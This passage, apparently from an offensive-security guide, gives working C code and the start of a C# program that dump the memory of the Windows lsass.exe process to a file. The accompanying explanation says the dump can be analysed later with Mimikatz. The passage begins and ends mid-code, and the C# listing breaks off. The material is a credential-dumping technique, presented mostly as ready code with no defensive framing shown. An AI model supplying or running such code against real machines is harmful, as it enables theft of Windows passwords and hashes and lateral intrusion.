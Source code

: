 ```c

    CloseHandle(processesSnapshot);
    return 0;
}

int main() {
    DWORD processId = FindProcessId("lsass.exe");
    HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, processId);

    HANDLE dumpFile = CreateFile("C:\\Windows\\Temp\\lsass.dmp", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

    if (processHandle && dumpFile) {
        MiniDumpWriteDump(processHandle, processId, dumpFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
        CloseHandle(dumpFile);
        CloseHandle(processHandle);
    }

    return 0;
}
```

- **Explanation**:
  - This C code locates the `lsass.exe` process by its name, opens it, and creates a memory dump file using `MiniDumpWriteDump`.
  - The dump file (`lsass.dmp`) can be analyzed later with Mimikatz.

#### C# Program Example

Here’s a similar approach using C#:

```csharp
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;

class Program
{
    [DllImport("Dbghelp.dll")]
    public static extern bool MiniDumpWriteDump(
        IntPtr hProcess,
        uint ProcessId,
        IntPtr hFile,
        MINIDUMP_TYPE DumpType,
        IntPtr ExceptionParam,
        IntPtr UserStreamParam,
        IntPtr CallbackParam);

    public enum MINIDUMP_TYPE : uint
    {
        MiniDumpWithFullMemory = 0x00000002
    }

    static void Main(string[] args)
    {
        Process[] processes = Process.GetProcessesByName("lsass");
        if (processes.Length > 0)
        {
            Process lsass = processes[0];
            string dumpFile = Path.Combine("C:\\Windows\\Temp", "lsass.dmp");

            using (FileStream fs = new FileStream(dumpFile, FileMode.Create, FileAccess.Write, FileShare.None))
```